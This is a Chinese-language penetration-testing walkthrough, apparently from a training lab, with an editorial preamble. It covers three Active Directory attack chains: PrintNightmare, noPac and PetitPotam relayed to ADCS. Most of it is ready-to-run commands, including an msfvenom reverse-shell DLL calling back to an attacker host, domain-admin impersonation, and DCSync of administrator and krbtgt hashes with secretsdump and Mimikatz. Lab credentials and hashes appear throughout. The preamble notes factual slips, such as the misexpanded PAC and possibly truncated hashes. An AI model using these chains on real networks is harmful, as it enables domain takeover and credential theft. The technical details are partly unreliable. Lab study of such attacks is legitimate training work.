# AD域内网渗透-三种漏洞利用方式

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：各链不同：Print Spooler可达及适用补丁/驱动策略；noPac需可控机器账号；PetitPotam到ADCS还需可中继Web注册和可用模板
- 证据范围：三条攻击链以及证书取得后的多种后利用有独立教学价值，但产品/权限/补丁条件过度简化

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 元数据仅34527，应多实体归档
- 拿到普通TGT不等于noPac已验证，应记录扫描器实际票据差异判据
- MachineAccountQuota=0并不代表所有拥有既有机器账户权限的路径均失败
- 将PetitPotam强制认证与ADCS中继后果混称单一CVE，缺EPA/签名及模板前提
- PAC误称Privileged Attribute Certificate且多个NTLM散列长度疑似截断
- 受影响/修复版本缺失

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。
- 验证须使用自有隔离环境的凭据；已暴露的真实凭据应撤销或轮换。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

jzhoucdc  泷羽Sec   2025-04-19 00:11  
  
本文基于AD域内网渗透中三种漏洞利用的学习记录。  
## PrintNightmare  
  
PrintNightmare包括两项漏洞CVE-2021-34527 和 CVE-2021-1675，这些漏洞存在于Windows操作系统上的打印后台处理程序（Print Spooler）服务中。目前基于该漏洞，已经有很多的利用代码，允许进行权限提升和远程代码执行**。**  
这个漏洞可以在本地环境提权，也可以在AD域内网环境中获取shell**。**  
### 环境配置  
  
为了利用成功，我们需要使用cube0x0版本的Impacket：  
> git clone https://github.com/cube0x0/impacket  
> cd impacket  
> python3 ./setup.py install  
  
### 漏洞确认  
  
**Print System Asynchronous Protocol**  
和**Print System Remote Protocol**  
是与打印服务相关的协议，在利用漏洞之前，确认目标系统是否暴露。  
> rpcdump.py @IP | egrep 'MS-RPRN|MS-PAR'  
  
  
  
### 生成DLL payload  
  
在确认后，生成一个DLL利用：  
> msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll  
  
  
  
### 使用MSF multi/handler  
  
准备接受shell  
  
  
### 创建smb共享  
> sudo smbserver.py -smb2support CompData /home/htb-student/CompData/  
  
  
  
### 漏洞利用  
  
一切准备就绪，利用漏洞  
> sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'  
  
  
  
  
查看发现拿到Meterpreter shell，已经是高权限。  
  
  
## NoPac  
  
**NoPac**  
（**SamAccountName Spoofing**  
），利用了Windows域中的安全漏洞，允许攻击者从任何普通域用户身份通过一个命令提升权限至域管理员。这种漏洞包括两个CVE编号，分别为**CVE-2021-42278**  
和**CVE-2021-42287**  
。  
  
noPac利用工具  
### 漏洞扫描  
  
可以使用一个普通的域用户账户运行扫描器（scanner.py），尝试从目标域控制器获取一个TGT（Ticket Granting Ticket）。如果成功，说明系统确实存在这个漏洞。  
> python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap  
  
  
  
  
在成功获取TGT之后，表明确实存在漏洞，还可以发现**ms-DS-MachineAccountQuota**  
的值被设置为**10**  
。这个值控制了每个域用户账户最多可以在域中添加多少台计算机账户。默认情况下，这个值是10，表示可以添加最多10台计算机。如果将**ms-DS-MachineAccountQuota**  
的值设置为**0**  
。攻击就会失败，用户将没有权限添加新的计算机账户。  
### 漏洞利用  
> sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap  
  
  
  
### Dump hash  
  
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator  
  
  
  
导出了administrator的NTML。  
## PetitPotam  
  
**PetitPotam**  
（CVE-2021-36942）是一个LSA（本地安全机构）欺骗漏洞，允许未认证的攻击者通过Microsoft的**MS-EFSRPC**  
协议，利用端口445的NTLM身份验证，强迫域控制器与远程主机进行身份验证。  
### 攻击步骤1  
  
首先，我们需要在攻击主机上的一个窗口中启动 ntlmrelayx.py，指定 CA 主机的 Web 注册链接，并使用 KerberosAuthentication或DomainController ADCS 模板。  
> sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController  
  
  
  
### 攻击步骤2  
  
在另一个窗口中，我们可以运行工具PetitPotam.py。尝试强制域控制器向运行 ntlmrelayx.py 的主机进行身份验证。  
> python3 PetitPotam.py 172.16.5.225 172.16.5.5  
  
  
  
  
如果攻击成功，可以看到成功的登录请求并获取域控制器的base64编码证书。  
  
  
### 攻击步骤3  
  
接下来，我们可以获取此base64 证书并用使用gettgtpkinit.py来为域控制器请求票证授予票证(TGT)。  
> python3 gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 <获取的编码> dc01.ccache  
  
  
  
> AS-REP 加密密钥：16950e24794e18ce18211c5ebf8ea22910b3854ffb9ce4c4ab0dcc8a5c390abe  
  
  
TGT票据保存到了本地dc01.ccache 文件中。  
### 攻击步骤4  
  
针对dc01.ccache 文件，可以用它来设置 KRB5CCNAME环境变量，我们在攻击时，尝试 Kerberos 验证时会使用该文件。  
> export KRB5CCNAME=dc01.ccache  
  
  
可以使用klist查看票据  
  
  
### 攻击步骤5  
  
然后，我们可以将此TGT与 secretsdump.py 结合使用，执行 DCSync。  
> secretsdump.py -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL  
  
  
  
### 攻击步骤6  
  
使用内置管理员帐户的 NTLM哈希来向域控制器进行身份验证。后续可以拿到shell。  
> crackmapexec smb 172.16.5.5 -u administrator -H 88ad09182de639ccc6579eb0849751cf  
  
  
  
### 方法2  
  
在这里获取目标的 TGT之后，可以采取另一种方法来请求目标主机或用户的NTLM哈希。  
### 步骤2.1  
  
通过使用**PKINITtools**  
中的**getnthash.py**  
工具，提交一个 TGS请求，其中包含了**Privileged Attribute Certificate (PAC)**  
，该证书包含目标的NTLM哈希。然后，使用我们在之前请求 TGT 时获得的 AS-REP加密密来解密 PAC，从而获取目标的NTLM哈希。  
> python /opt/PKINITtools/getnthash.py -key 16950e24794e18ce18211c5ebf8ea22910b3854ffb9ce4c4ab0dcc8a5c390abe INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$  
  
  
  
### 步骤2.2  
  
然后，我们可以用这个哈希值,使用secretsdump.py**-hashes**  
，执行**DCSync**  
#### 使用域控制器DC01-NTLM哈希进行 DCSync  
> secretsdump.py -just-dc-user INLANEFREIGHT/administrator "ACADEMY-EA-DC01$"@172.16.5.5 -hashes aad3c435b514a4eeaad3b935b51304fe:7277f699a390220114d3571785d5d02d  
  
  
  
  
一样可以导出目标NTLM哈希  
### 方法三Pass-the-Ticket (PTT)   
  
当我们通过ntlmrelayx.py获取到base64编码的证书，我们可以在Windows的主机上使用该证书，利用Rubeus 工具来请求TGT票据，执行**Pass-the-Ticket (PTT)**  
攻击。  
### 使用DC01$账户申请 TGT 和执行PTT  
> .\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$ /certificate:<base64编码> /ptt  
  
  
  
  
然后，我们可以通过**klist**  
来确认票据是否在内存中。同样的，可以使用 Mimikatz 执行 DCSync 攻击。在这里，我们获取krbtgt帐户的NTLM哈希。  
### 使用 Mimikatz 执行 DCSync  
> lsadump::dcsync /user:inlanefreight\krbtgt  
  
  
  
  
  
  

---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
